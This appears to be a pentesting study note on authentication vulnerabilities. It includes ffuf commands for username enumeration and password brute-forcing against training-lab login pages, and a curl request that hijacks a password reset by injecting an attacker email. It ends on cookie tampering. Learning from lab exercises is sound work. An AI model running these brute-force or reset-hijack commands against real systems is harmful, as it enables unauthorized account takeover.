```yaml
---
title: Authentication
sidebar_position: 1
description: Authentication vulnerability notes.
---
```


## Introduction
- Authentication is the process of verifying the identity of the user or client.
- There are three types of Authentication
  - **Something you know** (Passwords, Security questions, etc). Also called **knowledge** factors.
  - **Something you have** (Mobile phone, security token, etc). Also called **possession** factors.
  - **Something you are** (Biometrics). Also called **inherence** factors.

## Authentication vs Authorization
- **Authentication** is the process of verifying that a user is **who they claim to be**. 
- **Authorization** involves verifying whether a user is **allowed to do something**. 

## Why Authentication Vulnerabilities Arise
- Most authentication vulnerabilities arise due to one of the following two ways
  - Authentication mechanisms are weak and doesn't provide protection against **bruteforcing**.
  - Logic flaws or poor coding due to which authentication can be **bypassed entirely**.

## Impact of Authentication Vulnerabilities
- Impact is often high or critical due to the fact that the account can be took over by the attacker.
- If the account is high privileged then the whole application can be compromised.


## Vulnerabilities in Password-Based login

### Bruteforce Attacks
- Usernames can be bruteforced on the following conditions.
  - If they conform to a specific pattern such as `firstname.lastname@companyname.com`.
  - If the usernames are predictable such as `admin` or `administrator`.
- Passwords can similarly be brute-forced, with the difficulty varying based on the strength of the password. 
- Users often take a password that they can remember and try to crowbar it into fitting the password policy. 
- For example, if `mypassword` is not allowed, users may try something like `Mypassword1!` or `Myp4$$w0rd` instead. 


#### Username Enumeration
- Username enumeration is when an attacker is able to **observe changes** in the website's behavior in order to identify whether a given username is valid.
- Username enumeration typically occurs either on the **login page**.
- For example, when you enter a **valid username but an incorrect password**, or on registration forms when you enter a **username that is already taken**.
- Look for changes in the following areas to identify the usernames.
  - Status codes
  - Response text
  - Error messages
  - Response time
- Enumerate usernames with ffuf using the below command.
    ```
    ffuf -X POST -w usernames.txt:FUZZ -u https://0a2300d70345a82482604224009f00ea.web-security-academy.net/login -d "username=FUZZ&password=test" -H "Host:0a2300d70345a82482604224009f00ea.web-security-academy.net" -fr "Invalid username"
    ```

#### Enumerate Passwords
- Enumerate passwords with ffuf using the below command.
    ```
    ffuf -X POST -w passwords.txt:FUZZ -u https://0a2300d70345a82482604224009f00ea.web-security-academy.net/login -d "username=af&password=FUZZ" -H "Host:0a2300d70345a82482604224009f00ea.web-security-academy.net" -fc 200
    ```



- Support website: http://10.10.129.12/customers/signup/
    ```
    ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.129.12/customers/signup -mr "username already exists"
    ```

#### Bruteforce Password
- Use the identified usernames and attempt to find the passwords.
- If you created your valid_usernames file by piping the output from ffuf directly you may have difficulty with this task. Clean your data, or copy just the names into a new file.
    ```
    ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.129.12/customers/login -fc 200
    ```
- Bruteforce individual usernames.
    ```
    ffuf -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W1 -X POST -d "username=<USERNAME>&password=W1" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.129.12/customers/login -fc 200
    ```

### Logic Flaws
- Password reset request looks like below.
    ```
    curl 'http://10.10.129.12/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
    ```
- Create an account with email id `attacker@hacker.com` and update the curl request like below.
    ```
    curl 'http://10.10.129.12/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
    ```

#### Cookie Tampering
- Cookies are set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges.
- Some of the examples of cookies set after successful login are
  - `Set-Cookie: logged_in=true; Max-Age=3600; Path=/`
  - `Set-Cookie: admin=false; Max-Age=3600; Path=/`
  - `Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/`
- `eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==` - base64 decoded has the value of `{"id":1,"admin": false}`